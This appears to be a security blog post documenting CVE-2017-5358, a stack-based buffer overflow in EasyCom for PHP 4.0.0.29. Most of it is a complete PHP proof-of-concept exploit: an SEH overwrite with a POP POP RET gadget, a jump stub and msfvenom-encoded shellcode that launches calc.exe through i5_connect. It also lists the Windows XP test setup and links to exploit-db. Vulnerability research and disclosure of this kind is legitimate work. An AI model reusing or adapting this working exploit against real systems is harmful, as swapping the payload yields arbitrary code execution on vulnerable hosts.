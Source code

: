 ```yaml
---
title: "EasyCom For PHP 4.0.0 - Buffer Overflow Exploit"
date: 2017-11-18 22:00:00
preview: "Stack-based buffer overflows in php_Easycom5_3_0.dll in EasyCom for PHP 4.0.0.29 allows remote attackers to execute arbitrary code via the server argument to the (1) i5_connect, (2) i5_pconnect, or (3) i5_private_connect API function."
---
```


Stack-based buffer overflows in `php_Easycom5_3_0.dll` in EasyCom for PHP 4.0.0.29 allows remote attackers to execute arbitrary code via the server argument to the (1) i5_connect, (2) i5_pconnect, or (3) i5_private_connect API function.

CVE: CVE-2017-5358

## Environment
* EasycomPHP_4.0029.iC8im2.exe
* PHP 5.3.1 (cli) (built: Nov 20 2009 17:26:32)
* xampp-win32-1.7.3
* Windows XP SP2 32bit

## Exploit
```php
<?php

$nseh = "\xeb\x06\x90\x90";		# JMP ESP+6
$seh = "\x81\x04\x02\x10";		# POP POP RET - xampp\php\php5ts.dll

$jump_to_sc = "\x59\x59\x59";		# POP ECX ; POP ECX ; POP ECX
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xfe\xcd"; # DEC CH
$jump_to_sc = $jump_to_sc . "\xff\xe1"; # JMP ECX

# msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -e x86/shikata_ga_nai -f c
# size: 220 bytes
$shellcode = "\xb8\xcd\x5a\x0b\x2d\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1";
$shellcode  = $shellcode . "\x31\x31\x43\x13\x03\x43\x13\x83\xc3\xc9\xb8\xfe\xd1\x39\xbe";
$shellcode  = $shellcode . "\x01\x2a\xb9\xdf\x88\xcf\x88\xdf\xef\x84\xba\xef\x64\xc8\x36";
$shellcode  = $shellcode . "\x9b\x29\xf9\xcd\xe9\xe5\x0e\x66\x47\xd0\x21\x77\xf4\x20\x23";
$shellcode  = $shellcode . "\xfb\x07\x75\x83\xc2\xc7\x88\xc2\x03\x35\x60\x96\xdc\x31\xd7";
$shellcode  = $shellcode . "\x07\x69\x0f\xe4\xac\x21\x81\x6c\x50\xf1\xa0\x5d\xc7\x8a\xfa";
$shellcode  = $shellcode . "\x7d\xe9\x5f\x77\x34\xf1\xbc\xb2\x8e\x8a\x76\x48\x11\x5b\x47";
$shellcode  = $shellcode . "\xb1\xbe\xa2\x68\x40\xbe\xe3\x4e\xbb\xb5\x1d\xad\x46\xce\xd9";
$shellcode  = $shellcode . "\xcc\x9c\x5b\xfa\x76\x56\xfb\x26\x87\xbb\x9a\xad\x8b\x70\xe8";
$shellcode  = $shellcode . "\xea\x8f\x87\x3d\x81\xab\x0c\xc0\x46\x3a\x56\xe7\x42\x67\x0c";
$shellcode  = $shellcode . "\x86\xd3\xcd\xe3\xb7\x04\xae\x5c\x12\x4e\x42\x88\x2f\x0d\x08";
$shellcode  = $shellcode . "\x4f\xbd\x2b\x7e\x4f\xbd\x33\x2e\x38\x8c\xb8\xa1\x3f\x11\x6b";
$shellcode  = $shellcode . "\x86\xb0\x5b\x36\xae\x58\x02\xa2\xf3\x04\xb5\x18\x37\x31\x36";
$shellcode  = $shellcode . "\xa9\xc7\xc6\x26\xd8\xc2\x83\xe0\x30\xbe\x9c\x84\x36\x6d\x9c";
$shellcode  = $shellcode . "\x8c\x54\xf0\x0e\x4c\xb5\x97\xb6\xf7\xc9";

# SEH overwrite      = 1868 bytes
# payload_base       = 00C0F864
# ecx		     = 00C0FCB0
# ecx - payload_base = 1100 bytes

$nop1 = str_repeat("\x90", 1100);
$nop2 = str_repeat("\x90", 1868 - strlen($nop1) - strlen($shellcode));
$nop3 = str_repeat("\x90", 1000);

$payload = $nop1 . $shellcode . $nop2 . $nseh . $seh . $jump_to_sc . $nop3;

$conn = i5_connect($payload, "QPGMR", "PASSW") or die(i5_errormsg());

?>

```

## References
* [hyp3rlinx](http://hyp3rlinx.altervista.org/advisories/EASYCOM-PHP-API-BUFFER-OVERFLOW.txt)
* [SEH exploitation tutorial](http://www.thegreycorner.com/2010/01/seh-stack-based-windows-buffer-overflow.html)
* [exploit-db PoC](https://www.exploit-db.com/exploits/41425/)